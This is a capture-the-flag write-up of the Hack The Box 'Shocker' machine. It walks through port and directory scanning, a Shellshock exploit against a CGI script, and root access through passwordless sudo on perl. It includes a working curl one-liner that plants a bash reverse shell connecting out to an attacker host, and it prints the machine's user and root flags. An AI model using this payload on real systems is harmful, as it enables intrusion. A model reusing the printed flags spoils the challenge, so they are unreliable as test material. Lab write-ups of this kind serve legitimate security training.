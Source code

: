 ```yaml
---
layout: post
title:  "HTB Shocker Linux"
description : Enumeration reveals the shocking exploit!.Root will shine as a pearl!
tags: HTB, perl, shocker
---
```


# Recon
Nmap scan
```ruby
CVEs_10.10.10.56.nmap 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.020s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.18:
| CVE-2017-7679 7.5 https://vulners.com/cve/CVE-2017-7679
| CVE-2017-7668 7.5 https://vulners.com/cve/CVE-2017-7668
| CVE-2017-3169 7.5 https://vulners.com/cve/CVE-2017-3169
| CVE-2017-3167 7.5 https://vulners.com/cve/CVE-2017-3167
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Dirbuster scan
```ruby
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /cgi-bin/ - 403
Dir found: / - 200
Dir found: /icons/ - 403
```
Gobuster scan
```ruby
gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://
10.10.10.56:80/cgi-bin -s 200,204,301,302,307,403 -x sh
/user.sh (Status: 200)
```
```ruby
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.56
+ Target Hostname:    10.10.10.56
+ Target Port:        80
+ Start Time:         2019-11-04 16:30:34 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2019-11-04 16:34:28 (GMT-5) (234 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

# Exploitation Shellshock
The target machine is vulnerable to RCI Shellshock
After a little bit of research I came accross with a nice and handy one-liner reverse shell to
get user.
```ruby
curl -H "User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.25/5555 0>&1" http://
10.10.10.56/cgi-bin/user.sh
```
![](https://lh3.googleusercontent.com/ik9ZmyziiHaJQlxfDZGn9lLlvJzFAlovugfope5AwtAnjxomtRIdr3G0t5Bvllf7F7Af3RR4VzJYFcjZFMSjt2bj6e06dhxq0DH5hjc7k-ebnc02igvtVhpEKOmlE5DbgzL9-xNMpft3UhmFg5FtWmIVY-EzyHhPWtI_4Fzq4ISTd4Lyen3dE3OSDDkYWspQbBHmFUjcbTrMrKrgGIsIQ1YonNYVFFUN8f3g3LjMBYRArmHzp0wkyHuWIt-VvLTWVqgFyH1GVtUN3F1vROrBuP8Amh1Vtx4MNd2-u5BPjeiJv_7_zl633_sotZAk6WpDpgetuSmQ52Lr0tXHxBoxcDyUb0i5Oow37bptWc_TCXU9F6FDMZGMCiQYS7HluhX8_r5bGbuxrbQx5nBqPuOkhjsQriV44aZ2sAPcpHBSEm2z2zSwie3dx0ELugmjwC7FXP157mFxGaYlQDN3_Rfpt3fkCSRyshipW9tIas0FR7g40a-ZoyOoQtai8E0rfuHR52b7k05VuLv4dg_PNBiYY_FdYkfDHMHRxw2OZCFvYJZBMo0D0MwJWAzQsKZHMd7eVaE8D3VHqJKyB673TiMOWJuJCRLxlg69pkEp4Ub0NrK8TIFEvB5HwRqmbgcGMr9IaeaoEMIzsQl4nnqe_K6T4HHQAPT8xENk6duXSdZxwwrgzJ51JTb6opA=w703-h195-no)

# Privilege Escalation
After running LinuxEnum script we find out that we can **sudo** perl files
```ruby
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/
bin\:/sbin\:/bin\:/snap/bin
User shelly may run the following commands on Shocker:
 (root) NOPASSWD: /usr/bin/perl
[+] Possible sudo pwnage!
/usr/bin/perl
```
![](https://lh3.googleusercontent.com/pqAM_KlDJqm8bgU7z8Pt73Xrp4qkQteltjrVt2O7v-7I5vvjf5oJDhLT-PKasb4kvHMoRFRsG4p_sL9QTrfJSFGjDn2FJhNhUsxsKWLkVGtl5GR-F4Lzz3U3xBs09r0lXNqFhnNRsGyNrs-UQ6iLeIRObO_uCCzgTsdcODzUgPna1XgvXDq6cdJKFvt-cEMfOTXBwrDtaQYt_sicxhHMFTO9ONmgBvxzPq2S4DZCllb9hiZVmF4FrxWGvIxoduL589mnyHYsCo9dVe5LqaC9tv5eZGsJIQVZgGpBeOE0kGOn5PHqrN4LELyr3r1PI6eIXjvBu4ATpwtmZt2Vve9Op3dw0M4UIF5WBy5pSnQ4bcEAacrH10bYpCIGx8gJmai6AUeqsVP8mcnG8p5cPkQ8QNiN6491urNRchk8yGkxzHjwSrL173ph8LIZg7BIq9DsyUnEU7lYaYe9oYsIa4uyE9IN_AM6dthFQBi2qZ97xGQpu4CXyP7uZWwvRBgOOYBUsgNFleLb-Ip2i_nLVDEIme_psMe377PcLliSGYOf3AlEzVrozvXz0UdxhtJqy04om9UTSTPgHEifdd5UM7p8JITjlFdTBFYb7uPBG7Rx3ZqVboqiiUhTqW5oieswrrilppFR3aSe8M06QM5hzmRBR5iv4IgfHDTgs1ErwZDDpqNai5kJ1EKnLpY=w751-h222-no)

We upload a perl reverse shell and set up nectat to get root!
![](https://lh3.googleusercontent.com/aMsxhqanjduBrkVsZrjxG_0zsePClu_pk2Yobd7mxPA_ZR9O3xymsAvPk0Efmr2ORqDdAlKo9YLcWtWrvOy-CJ4LaI4UDFe_oQswKcIlwzEo2nZ3XaPS9fa0fwm9vBzFQg0nKEHFcJpM5ai-aTDLn7ZFRWSCIEPtI_Nu561GTb2G5kPomyLK0kkWGIk0uWGXGb0QisUv8mYvTaulEo51XDp1vn5wEq8osUOryOiXO8KS0aikRBSsDsin7LZywffZWwgD3LHRgha5ANGO4K5MidZDhFICor67aMVaxrNyFYcVT_B92VJIOQDWDOdHV3lRhkO3s79swVAbbbGEunt8UL6_52GpSXqIL6wPMnz60gjN4xF6CKZw8CumAavdiuALvp_9NEeswQjtXeA0BOStXZNtKyDBipTScX6uMy5lsklfZxFl52I-jhb1EOla-ZZU9uHd1fz89cYIa0UHLOUx5XjiLBPgdRBEKWchmuCq6JvD5C2OnCx-l0YIh0bZqZJ2IaVoEsVaZlcANOgM51HSnbNLHRWp5Y-luZYjHImNR_j4LpBKEh2aF_xIB1bHpwJRh4_VS0upR-NbqXAm_Ef30M5LHTJfzEjgv3212tlotQZc-hy5aDLk9FHzUTXkeYsFCslB10f-5L02q3eavmREu5Umun4fpfFgmszONki6S6q-SZuUJElus6k=w611-h451-no)

![](https://lh3.googleusercontent.com/a3UnJ2fxz4uqeetF8rGEcviQ6010kl8eJ6F_tGsM4Hf-Ob3b7Hf-RJ4awyj7MkfmOiHLeQyLDK7YUL_oLEh7ufghR_LF2bEl-ZXOz0KK9YIlKyiPjBiLaZQi8-1hugMthr05VPaP22SmE1WlspEQF7yleluaf1B0JI4oKQ1xa9Dzr_oFiVTBt0-DSFyzFKzVIJRFMQ1dvFdbVeWit59MtlzZY7GXBQVT311yR-zUmIRcFNvJConvV0jDggqdcpfR5d2sU-L3v42t6lN7GuZVof3XD6WDyqqEEnhZ1p-sKXJOccTFappem0U6hi72ZEucFdzEHZmBcaDuOMtxVHsDqZy91dFi639dxRF-JSvPW1it7iOcy7TYNKkprarmW9--Fypcar90sQJsmdfylb0BJVgTr2ru3-i7xK92a9o4zzc7psvxEmqou8mPPOFWKdiYp6tCD7SPCyWZVv9OlkUSFh8tu4jmxyfc04KJ6Fr4DcJ_5wWf23toJq5P4W5DeLBFnEi8L1zuxwlobaGU-vIJ8j9frfKlaK29xqdZAhAeF5zujSOaYV9ixR601DQKvMroVUmTjLbiLkyCYq_a5PfbcApcJ0-NsrKA2Hxuse7enIJPVW9GhEUqGLG1IAGJqJIN5SJLXU0zHzH87W1GEC-ngEH191AolR_zaf0t5EnAV-pinbvqxk-sK1Q=w809-h277-no)

# FLAGS
```ruby
ROOT "52c2715605d70c7619030560dc1ca467"
USER "2ec24e11320026d1e70ff3e16695b233"
```

